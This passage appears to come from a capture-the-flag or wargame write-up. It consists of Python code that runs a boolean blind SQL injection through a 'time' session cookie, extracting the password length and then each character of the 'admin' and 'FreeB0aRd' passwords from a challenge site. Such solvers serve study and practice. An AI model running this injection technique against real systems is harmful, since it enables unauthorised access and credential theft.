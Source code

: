             req = requests.get(self.url, cookies=cookies)
            res = req.text
            temp = re.findall('2070-01-01 09:00:01', res)

            if temp and user == 'admin':
                self.admin_pass_length = i
                print('[+] Admin Password length = ' + str(self.admin_pass_length))
                break

            if temp and user == 'FreeB0aRd':
                self.board_pass_length = i
                print('[+] FreeB0aRd Password length = ' + str(self.board_pass_length))
                break
            temp = []
        return

    def crack_password(self, user, pass_len):
        """
        This function will try to crack the password if the username and the length
        of the password are provided. Use length_password() to find out the length of the password.

        :param user:        ->  username of whom the password has to be found out
        :param pass_len:    ->  Length of the password found out for the same user
        :return:
        """
        for j in range(1, pass_len+1):
            print("[+] Letters more to go: " + str(pass_len+1 - j))

            for i in range(33, 126):
                cookies = dict(PHPSESSID=self.PHPSESSID, time='1434114374 and (select ascii(substr(password, ' + str(j)
                                                              + ', 1)) from ' + str(user) + ') = ' + str(i))
                req = requests.get(self.url, cookies=cookies)
                res = req.text
                temp = re.findall('2070-01-01 09:00:01', res)
                if temp and user == 'admin':
                    self.admin_pass += chr(i)
                    print('[+] Admin Password till now = ' + str(self.admin_pass))
                    break

                if temp and user == 'FreeB0aRd':
                    self.board_pass += chr(i)
                    print('[+] FreeB0aRd Password till now = ' + str(self.board_pass))
                    break
                temp = []
        return

    def print_vaules(self):
        print("\n ----------------------------------")
        print("[+] Admin Password Length = " + str(self.admin_pass_length))
        print("[+] Admin Password = " + str(self.admin_pass))
        print("[+] FreeB0aRd Password Length = " + str(self.board_pass_length))
        print("[+] FreeB0aRd Password = " + str(self.board_pass))
        print(" ---------------------------------- \n")


def main():
    challenge = Challenge2()
    challenge.length_password('admin')
    challenge.length_password('FreeB0aRd')
    challenge.crack_password('admin', 10)
    challenge.crack_password('FreeB0aRd', 9)
    challenge.print_vaules()

if __name__ == '__main__':
    main()

{% endhighlight %}
